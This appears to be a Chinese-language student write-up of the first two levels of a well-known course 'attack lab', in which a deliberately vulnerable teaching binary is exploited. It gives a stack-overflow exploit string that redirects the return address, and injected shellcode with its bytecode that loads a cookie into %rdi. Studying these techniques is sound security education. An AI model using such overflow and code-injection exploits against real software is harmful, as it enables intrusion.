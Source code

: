 ## 1.1: Level 1
>Your task is to get CTARGET to execute the code for touch1 when getbuf executes its return statement,
rather than returning to test. Note that your exploit string may also corrupt parts of the stack not directly
related to this stage, but this will not cause a problem, since touch1 causes the program to exit directly.

我们的目标是输入一个字符串让getbuf函数执行完后，跳转到touch1函数，而不是返回到test函数。

这题不需要我们注入代码，只需要让程序跳转到touch1函数即可。

简单来说就是**通过栈溢出，覆盖掉返回地址**，让程序跳转到touch1函数。

我们可以通过GDB调试程序，找到touch1函数的地址，然后构造一个字符串，让程序跳转到touch1函数即可。

通过GDB查看得到touch1函数的地址为0x4017c0。

同时我们需要知道getbuf函数的栈帧大小，这样我们才能知道我们需要填充多少字节才能覆盖到返回地址。通过GDB查看得到getbuf函数的栈帧大小为0x28。即40个字节。

最后要注意的是，我们**需要将touch1函数的地址转换为小端字节序**，因为x86-64是小端字节序。

最后的输入文件为：
```
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */
00 00 00 00 00 00 00 00 00 00 /* 10字节的填充字符 */ 
c0 17 40 00 00 00 00 00       /* touch1函数的地址(小端序) */
```

## 1.2: Level 2
>Your task is to get CTARGET to execute the code for touch2 rather than returning to test. In this case, however, you must make it appear to touch2 as if you have passed your cookie as its argument.

这次我们不仅要让程序跳转到touch2函数，还要**传递一个cookie给touch2函数**。

根据文档中的提示，**cookie通过寄存器%rdi传递给touch2函数**。

因此我们在跳转到touch2函数之前，需要将cookie的值放到%rdi寄存器中。

我们可以把这个过程整理成要注入的代码，然后**通过溢出覆盖返回地址，让程序的控制跳转到我们注入的代码中**。

在注入的代码中我们修改%rdi寄存器的值，然后跳转到touch2函数。

我们需要在40个字节内完成注入代码的编写。提示中说不要用call和jmp，因为这两个指令的代码较难构造，因**此我们可以使用push和ret指令来实现**。

汇编代码如下：
```
movq $0x59b997fa,%rdi   #将cookie的值放到%rdi寄存器中
pushq $0x4017ec         #将touch2的函数地址压栈
ret                     #跳转到touch2函数
```

得到的16进制字节码为：
```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3
```
